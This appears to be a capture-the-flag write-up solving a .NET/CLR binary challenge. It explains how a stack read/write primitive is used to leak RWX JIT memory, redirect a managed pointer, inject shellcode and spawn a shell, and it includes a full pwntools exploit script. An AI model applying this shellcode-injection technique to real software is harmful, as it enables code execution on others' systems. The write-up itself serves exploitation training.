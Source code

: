# Solution

Once the user reverses the myApp.exe he notices:
 - Its not the prettiest decompiled code, but the function is very simple
 - The loop never returns, the break out condition is never set
 - There are 32*3 8 byte intergers allocated on the stack

He should wonder what this is all about. Well, there are 4 operations that can be summerized to:
 1. P : Prints the content of the value pointed by p
 2. R : Resets the pointer back to the original address on the stack ( = start address of stack alloced space)
 3. I : Increases the pointer
 4. W : Writes hex encoded data (8 byte) to the memory pointed by the pointer

 Basically he gets a Read-Write Primitive on the CLR Stack. Quite cool. He should debug the app at his local machine and notice some RWX memory a few bytes after the stack alloc. Well, its the jitted code that gets called once the loop exits. There is also a "1" at the stack, representing the loop exit condition. He can exit the write loop writing 0x00 to this field. Futhermore (and by sure the hardest primitive to find) is the internal CLR managed pointer of the user controlled pointer on the stack (its not present in Release Mode, we got to use the Debug build). Placing the user controlled pointer on this pointer we can overwrite the address his pointer points to. So basically he got 6 things to do:
  1. Leak the Address of the RWX memory
  2. Set the user controlled pointer to the address of the CLR pointer pointing to the user controlled pointer
  3. Write the address of the RXW section to it (user controlled pointer points into this RXW memory now!)
  4. Write some shellcode using the write primitives
  5. Reset the Pointer to the original value using the "R" operation
  6. Write 0x00 to the loop condition, breaking out the loop and executing his written shellcode
  7. Profit

If he is lazy, he can brute force the offsets for step 1, 2 and 6. I did this since had many builds with different offsets. Screenshots:
![](rwxleak.PNG)

To get the write address simply perform two write operations, it will crash with an invalid address written to:
![](writeoffset.PNG)

The last thing to do is to write shellcode. Verify it via gdb:
![](writtenshellcode.PNG)

Finally break the loop and enter the shell. Profit:
![](solved.PNG)

Code (not really cleaned up. It still contains the brute force operations for the offsets):
```python
from pwn import *

PROCESS_NAME = "./myApp"
ENV = {"LD_LIBRARY_PATH":"."}
SERVER = "localhost"
PORT = 1234

context.binary = PROCESS_NAME

if args.REMOTE:
	p = remote(SERVER, PORT)
else:
	p = process(PROCESS_NAME,env=ENV)
	#gdb.attach(p)

# Leak rwx memory
for i in range(0,113):
	p.sendlineafter("Input: ", "I")

p.sendlineafter("Input: ", "P")
rwxLeak = p.recvuntil("Input:").split("\n")
print rwxLeak

rwxLeak = int(rwxLeak[1]);
print "[+] RWX Leak: 0x%x " % (rwxLeak)

p.unrecv("Input: ")

#Reset pointer
p.sendlineafter("Input: ", "R")


#Set pointer to pointer location
'''
for i in range(0,400):
	print("Trying write offset: %d" % i)
	p.sendlineafter("Input: ", "I")
	p.sendlineafter("Input: ", "W")
	p.sendline("41414242")
	p.sendlineafter("Input: ", "W")
	p.sendline("43434343")
'''


for i in range(0,108):
	p.sendlineafter("Input: ", "I")

# Write rwx addr to pointer addr
p.sendlineafter("Input: ", "W")
p.sendline(hex(rwxLeak)[2:])

shellcode = asm(shellcraft.amd64.linux.sh())
shellcode = shellcode.ljust(len(shellcode) + 8-(len(shellcode) % 8), "\x90")


# Write shellcode ...
for i in range(0, len(shellcode),8):
	p.sendlineafter("Input: ", "W")
	p.sendline(shellcode[i:i+8][::-1].encode("hex"))
	p.sendlineafter("Input: ", "I")


# Reset pointer
p.sendlineafter("Input: ", "R")


# Set loop counter
for i in range(0,32):
	#print("Writing loop condition at: %d" % i)
	p.sendlineafter("Input: ", "I")

p.sendlineafter("Input: ", "W")
p.sendline("0")


p.interactive()
```
